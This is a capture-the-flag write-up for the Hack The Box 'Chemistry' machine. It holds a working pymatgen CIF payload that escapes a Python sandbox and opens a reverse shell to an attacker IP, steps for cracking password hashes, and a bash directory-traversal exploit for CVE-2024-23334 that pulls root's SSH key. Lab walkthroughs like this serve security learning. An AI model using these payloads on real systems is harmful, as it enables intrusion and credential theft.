 ```yaml
---
title: Chemistry - Hack The Box
date: 2024-10-24
---
```


# Chemistry

![Chemistry - info card](/ctf/hack-the-box/machines/chemistry/info-card.png)

## Enumeration

### Nmap

We start by running an Nmap scan to enumerate the open ports and services on the target:

```bash
nmap -A -T4 -p- 10.10.11.38
```

```bash
Nmap scan report for 10.10.11.38
Host is up (0.025s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  http    Werkzeug httpd 3.0.3 (Python 3.9.5)
|_http-title: Chemistry - Home
|_http-server-header: Werkzeug/3.0.3 Python/3.9.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From the results, we identified two open ports:

- Port 22: SSH
- Port 5000: HTTP (running Werkzeug)

### Exploring HTTP - Port 5000

Upon visiting the website on port 5000, we see that it's a **Chemistry CIF Analyzer** that allows uploading and
analyzing **CIF** (Crystallographic Information File) files.

![Chemistry - Home](/ctf/hack-the-box/machines/chemistry/home-page.png)

After registering and logging in, we land on the dashboard, where users can upload CIF files for analysis.

![Chemistry - Dashboard](/ctf/hack-the-box/machines/chemistry/dashboard-page.png)

The website provides a sample CIF file:

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```

### Vulnerability Research

Researching the web, we came across
a [vulnerability report](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f) related
to the **pymatgen** library used by the application. This vulnerability allows **arbitrary code** execution by
manipulating CIF files.

## Exploitation

### Reverse Shell Payload

We exploit the **pymatgen** vulnerability by crafting a CIF file that triggers a reverse shell.

Here’s the payload:

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/<ip>/4444 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "

```

::: info
Make sure to replace `<ip>` with your IP address and listen on port **4444** using `nc -lvnp 4444`.
:::

### Gaining Access

After uploading the payload, we receive a reverse shell. In the `instance` directory, we find a **sqlite database file**.

We can inspect the database with the following commands:

```bash
sqlite3 database.db
SELECT * FROM user;
```

This reveals a list of users and password hashes:

```bash
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
...
```

### User Flag

We find the user rosa in the /home directory. To access her account, we crack her password hash
using [CrackStation](https://crackstation.net/).

![CrackStation - Password Cracker](/ctf/hack-the-box/machines/chemistry/crackstation.png)

::: info
We can also use `hashcat` or `john` to crack the password hash.
:::

Once the password is cracked, we can log in via SSH:

```bash
ssh rosa@10.10.11.38
rosa@chemistry:~$ cat user.txt
[user-flag]
```

## Privilege Escalation

### Local Enumeration

Running `(netstat -punta || ss --ntpu)` reveals that **port 8080** is open locally.

```bash{2}
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -
```

The root user is running a **monitoring_site** Python script:

```bash
/usr/bin/python3.9 /opt/monitoring_site/app.py
```

### Accessing the Internal Web Application

To view the web application running on port 8080, we use SSH port forwarding:

```bash
ssh -L 8080:127.0.0.1:8080 rosa@10.10.11.38
```

We then visit `http://localhost:8080` and use `whatweb` to identify the technology stack:

```plaintext
http://localhost:8080 [200 OK] HTML5, HTTPServer[Python/3.9 aiohttp/3.9.1], JQuery[3.6.0], Script, Title[Site Monitoring]
```

### Exploit (CVE-2024-23334)

We found that **aiohttp version 3.9.1** is vulnerable
to [CVE-2024-23334](https://github.com/z3rObyte/CVE-2024-23334-PoC), which allows directory traversal attacks. We can
use this exploit to access the root private key:

```bash
#!/bin/bash

url="http://localhost:8080"
payload="/assets/"
file="root/.ssh/id_rsa"

for ((i=0; i<15; i++)); do
    payload+="../"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"

    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```

### Root flag

After retrieving the root private key, we log in as root:

```bash
ssh -i id_rsa root@10.10.11.38
root@chemistry:~# cat root.txt
[root-flag]
```

![Chemistry - pwned](/ctf/hack-the-box/machines/chemistry/pwned.png)

## References

- [GitHub - pymatgen vulnerability](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)
- [CrackStation](https://crackstation.net/)
- [HackTrick - Open ports](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports)
- [CVE-2024-23334](https://github.com/z3rObyte/CVE-2024-23334-PoC)